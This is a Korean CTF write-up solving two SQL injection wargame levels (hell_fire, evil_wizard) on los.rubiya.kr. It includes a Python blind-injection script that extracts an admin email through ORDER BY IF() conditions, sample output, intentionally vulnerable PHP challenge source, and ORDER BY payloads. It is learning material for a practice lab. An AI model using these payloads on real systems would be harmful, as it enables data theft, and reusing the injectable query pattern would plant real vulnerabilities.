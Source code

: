     for i in range (1,29):
        for j in range(48, 123):
            query='?order=IF(id=%27admin%27%20and%20ascii(mid(email,{},1))={},%201,%203)'.format(i, j)
            r = requests.get(url + query, headers=headers)
            if r.text.find("<td>admin</td>") < r.text.find("<td>rubiya</td>"):
                pw = pw + chr(j)
                print('substr(password,1,{}) is '.format(i), pw)
                break
    ```
    * 이렇게 되면 i가 25일때를 제외하고 출력된다
    ```
    substr(password,1,1) is  a
    (중략)
    substr(password,1,23) is  admin_secure_email@emai
    substr(password,1,24) is  admin_secure_email@emai1
    substr(password,1,26) is  admin_secure_email@emai1c
    substr(password,1,27) is  admin_secure_email@emai1co
    substr(password,1,28) is  admin_secure_email@emai1com
    ```
    * 아마 '.'이 guessing에 포함되지 않은듯 보여 emai1과 com 사이에 .을 넣어보았더니 solve가 떴다. 만세!
* [정답링크](https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php?email=admin_secure_email@emai1.com)

24-evil-wizard
====
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```
* // same with hell_fire? really?란 주석이 달려있다..ㅎㅎ 똑같게 만들어주자
  * 위에서 사용했던 attr과 IF의 결과 값을 잘 수정해주자
    * order by null도 고려해보면 다음의 query를 도출할 수 있다.
  * ?order=IF(score=50,null,1)
    * 여기서는 admin이 rubiya보다 빨리 온다(order by null과 같은 결과)
  * ?order=IF(score=70,null,1)
    * 여기서는 rubiya가 admin보다 빨리 온다(order by 1과 같은 결과)
